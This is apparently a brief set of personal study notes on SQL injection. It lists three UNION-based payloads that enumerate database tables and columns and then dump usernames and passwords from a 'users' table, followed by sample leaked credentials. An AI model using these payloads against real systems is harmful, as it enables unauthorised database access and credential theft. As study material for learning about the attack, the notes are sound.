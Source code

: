 # Learning SQL Injection

Just taking some notes about different SQL Injections.

#### This will display the tables
```
id=0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = database()--
```
#### This will display the columns from the selected table
```
id=0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'users'--
```
#### This will display the username and password
```
id=0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM users

##### Example
- admin:p4ssword
- martin:pa$$word
- jim:work123
```
